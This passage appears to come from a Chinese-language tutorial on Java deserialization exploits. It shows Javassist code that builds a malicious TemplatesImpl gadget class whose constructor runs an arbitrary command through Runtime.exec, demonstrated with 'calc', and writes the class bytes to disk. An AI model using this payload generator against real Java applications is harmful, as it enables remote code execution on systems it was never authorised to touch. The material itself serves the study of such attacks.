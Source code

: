 ```bash

        } catch (Exception e) {
            e.printStackTrace();
            return ctClass;
        }
    }

    public static void WriteShell() throws IOException, CannotCompileException {
        CtClass shell = GetShellCode.getTemplatesImpl("calc");
        shell.writeFile("D:\\Tomcat\\CC\\src\\main\\java\\JavaassitTest");
    }
    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        WriteShell();
    }
}
```

这就是我们生成的恶意类：

```bash
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class A extends AbstractTranslet {
    public A() {
        Runtime.getRuntime().exec("calc");
    }
}
```

生成二进制文件形式：

```bash
package EXPShell;
import javassist.*;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class GetShellCode {
    public static byte[] getTemplatesImpl(String cmd){
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("A");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = CtNewConstructor.make("public A(){Runtime.getRuntime().exec(\"" + cmd + "\");\n}", ctClass);
            ctClass.addConstructor(constructor);
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;

        }catch (Exception e){
            e.printStackTrace();
            return new byte[]{};
        }
    }

    public static void WriteShell() throws IOException {
        byte[] shell = GetShellCode.getTemplatesImpl("calc");
        FileOutputStream fileOutputStream = new FileOutputStream(new File("D:\\Tomcat\\CC\\src\\main\\java\\EXPShell\\S"));
        fileOutputStream.write(shell);
```